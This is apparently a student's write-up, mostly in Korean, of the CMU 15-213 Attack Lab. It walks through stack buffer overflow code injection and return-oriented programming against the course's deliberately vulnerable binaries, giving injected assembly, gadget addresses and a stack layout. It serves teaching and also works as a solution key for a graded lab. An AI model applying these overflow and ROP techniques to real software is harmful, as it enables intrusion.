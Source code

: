 # Lab3 Attacklab

> [09-machine-advanced.pdf](https://www.cs.cmu.edu/afs/cs/academic/class/15213-f15/www/lectures/09-machine-advanced.pdf)
> video [lecture](https://scs.hosted.panopto.com/Panopto/Pages/Sessions/List.aspx#folderID=%22b96d90ae-9871-4fae-91e2-b1627b43e25e%22)

The original lab material is `target1.tar`. My solution for phase 1~3 are in `target1/inj_atk` and for phase 4,5 is in `target1/ROP`. You should read `attacklab.pdf` first.

### code injection attack

- phase 1

`0x4017c0` 주소의 `touch1()` 함수를 호출해야 한다.

```asm
getbuf:
    sub    $0x28,%rsp
    mov    %rsp,%rdi
    call   0x401a40 <Gets>
    mov    $0x1,%eax
    add    $0x28,%rsp
    ret
```

`getbuf()` 는 스택에 40 byte 를 allocate 하고, 그 주소를 `Gets()` 에 넘겨준다. 우리는 `stdin` 을 통해, 그 주소로부터의 메모리에 접근할 수 있다. 40 byte 바로 위의 stack 에는 `getbuf()` 를 호출한 다음 명령어의 주소가 들어 있어 `ret` 을 입력받으면 그곳으로 `jump` 하는데, `Gets()` 는 입력받은 문자열의 길이를 검사하지 않으므로 40 바이트 이후의 입력을`0x4017c0` 으로 주면 `touch1` 에 접근할 수 있다.

`./hexdump < ./inj_atk/touch11.txt | ./rtarget -q`

- phase 2

`0x4017ec` 주소의 `touch2` 함수를 `cookie.txt` 에 있는 쿠키값을 매개변수로 하여 호출하여야 한다. 즉, `touch2` 함수를 호출하기 전에 `%rdi` 를 `0x59b997fa` 로 설정해야 한다. 그것을 위해 `getbuf()` 에서 stack 에 allocate 한 40 byte 의 공간에 명령어를 입력한 뒤, `0x4017ec` 로 `jump` 하도록 하자.

`getbuf()` 가 `ret` 된 뒤에는, stack 에 inject 한 명령어의 주소로 `jump` 해야 하므로, 40 byte 이후에는 그 주소를 입력해놓고, 그 다음 `touch2()` 가 호출되도록 `0x4017ec` 를 입력하자.

`touch22.asm` 에는 inject 할 명령어의 어셈블리 코드가 있다. `nasm -f elf64 touch22.asm` 을 통해 `touch22.o` 를 생성하고, `objdump -d touch22.o` 를 통해 해당 바이너리의 hex representation 을 보고 코드에 입력했다.

`getbuf()` 의 `caller` 인 `test()` 를 보면 `sub $0x8,%rsp` 를 통해 스택에 8 바이트를 allocate 하고 있는데, 스택의 어느 위치에 `touch2()` 의 주소를 입력하던 올바른 `%rsp` 를 설정하기만 하면 상관 없다.

문제의 경우에서 `touch2()` 는 리턴하지 않고 `exit` 나 `validate` 를 호출하여 프로세스를 종료시키므로 어디에 caller 의 주소가 입력되는지는 상관 없지만 만약 `touch2()` 가 리턴되었을 때에 `test()` 의 caller 로 돌아가게 하고 싶다면 `test()` 에서 allocate 한 8바이트의 공간에 리턴 주소를 입력시키고, inject 한 코드는 `rsp` 를 증가시키지 않고 리턴해야 한다.

`./hexdump < ./inj_atk/touch12.txt | ./rtarget -q`

- phase 3

`phase 2` 와 비슷하지만 이번엔 cookie 를 스트링으로 입력해야 한다. 아스키 코드로 인코딩한 후 메모리에 잘 inject 하고, `%rsi` 를 그 주소로 지정하는 코드도 inject 한 후, `phase 2` 와 똑같이 진행시켜 주자.

`./hexdump < ./inj_atk/touch13.txt | ./rtarget -q`

### return-oriented programming

- phase 4

`phase 2` 와 똑같이 cookie 를 인자로 `touch2` 를 호출하면 되지만 이번에 사용할 프로그램 `rtarget` 은 a) 스택의 주소를 무작위로 지정하며, b) 스택이 포함된 메모리 부분을 nonexecutable 로 설정하여 스택의 명령어가 execute 되면 segment fault 가 나도록 하는 방어 기술이 적용되어 있다.

그러나 `Gets()` 의 오버플로우 취약점은 여전하므로, 스택에 명령어 주소를 잘 배열하여 리턴시 예견되지 않은 명령을 실행할 수 있다. `start_farm` 부터 `mid_farm` 까지의 명령어를 잘 조합하여 `touch2(cookie)` 를 호출해 보자.

```d
00000000004019a0 <addval_273>:
  4019a0:	8d 87 48 89 c7 c3    	lea    -0x3c3876b8(%rdi),%eax
  4019a6:	c3                   	retq   

00000000004019a7 <addval_219>:
  4019a7:	8d 87 51 73 58 90    	lea    -0x6fa78caf(%rdi),%eax
  4019ad:	c3                   	retq   
```

다음 두 함수를 보면 `48 89 c7 c3` 은 `movq %rax, %rdi;ret` 로 인코딩되고, `58 90 c3` 은 `popq %rax;nop;ret` 로 인코딩된다. 즉, `0x4019ab` 와 `cookie`, `0x4019a2` 를 순차적으로 스택에 배열하면, `cookie` 값이 `pop` 되어서 `%rax` 에 적재된 이후, 이 값이 `%rdi` 로 옮겨진다. 이후 `touch2` 를 리턴하면 끝.

- phase 5

이번엔 `start_farm` 부터 `end_farm` 까지 주어진 더미 명령어들을 모두 이용하여 `phase 3` 의 스트링 호출을 하면 된다. 그걸 위해서 우리는 a) 스트링을 메모리에 입력시키고, b) 그 주소를 `%rdi` 에 적재하는 instruction 을 쨔야 한다. 헌데 앞서 언급한 방어책이 `rtarget` 에 적용되어 그 주소는 프로세스 이전에 예측할 수 없으므로, `%rsp` 로부터 그 주소를 알아내는 프로그램을 쨔야 한다.

한편 중간에 `add_xy` 함수가 있는데, 이로부터 `%rsp` 값과 거기로부터 떨어져있는 목표 스트링의 위치를 각각 `%rdi`, `%rsi` 에 적재하고, add_xy 함수를 호출한 후 `movq %rax, %rdi` 를 해야 한다고 설계할 수 있다.

구체적으로 사용할 수 있는 instruction 을 보기 위해 나는 `start_farm` 부터 `end_farm` 까지의 hex 코드를 메모장에 복사 붙여넣기 해서 `89` 로 검색해 사용할 수 있는 모든 `mov` instruction 을 파악한 뒤에, 해당 설계를 그 instruction 만으로 구현했다. 이 방법을 통해 `phase 5` 를 해결하는데에 걸리는 시간을 획기적으로(1시간 미만) 줄일 수 있었다. 아래는 그렇게 만든 코드의 어셈블리이다.

```asm
movq %rsp, %rax              # (1)
movq %rax, %rdi              # (2)
popq %rax                    # (3)
movl %eax, %edx              # (4)
movl %edx, %ecx              # (5)
movq %rcx, %rsi              # (6)
lea (%rdi, %rsi, 1), %rax    # (7)
movq %rax, %rdi              # (8)
```

여기서 주의할 점은, 중간에 32비트 instruction 이 사용된다는 거다. 이 instruction 은 레지스터의 하위 32비트에만 영향을 끼치고, 상위 32비트에는 아무 영향을 끼치지 않는다. 즉 `%rax` 에 적재된 값이 음수라면, 중간에 이 instruction 때문에 `add_xy` 를 통해 제대로 뺄 수 없다. 따라서 나는 타깃 문자열을 스택의 최하단에 배치하여 문자열이 (1) 번 명령줄의 `%rsp` 값보다 높은 메모리 주소를 갖도록 했다. 구체적인 스택의 배열은 다음과 같을 것이다:

|   주소  |    설명   |   값     |
|:-------|:--------:|---------|
|rsp + 80|string     |??  ??  ??  ??  ??  ??  ?? '\0'| 
|rsp + 72| string    |'a' 'f' '7' '9' '9' 'b' '9' '5'|
|rsp + 64|touch3     |00  00  00  00  00  40  18  fa|
|rsp + 56| (8)       |00  00  00  00  00  40  19  a2|
|rsp + 48| (7)       |00  00  00  00  00  40  19  d6|
|rsp + 40| (6)       |00  00  00  00  00  40  1a  13|
|rsp + 32| (5)       |00  00  00  00  00  40  1a  34|
|rsp + 24| (4)       |00  00  00  00  00  40  19  dd|
|rsp + 16| number, 72|00  00  00  00  00  00  00  48|
|rsp + 8 | (3, pop)  |00  00  00  00  00  40  19  ab|
|  rsp   | (2)       |00  00  00  00  00  40  19  a2|
|rsp - 8 | (1)       |00  00  00  00  00  40  1a  06|

왼쪽의 "주소" 행의 주소는 "값" 행의 제일 오른쪽 바이트의 주소를 의미하며, 왼쪽으로 갈수록 메모리 주소가 1씩 증가한다.
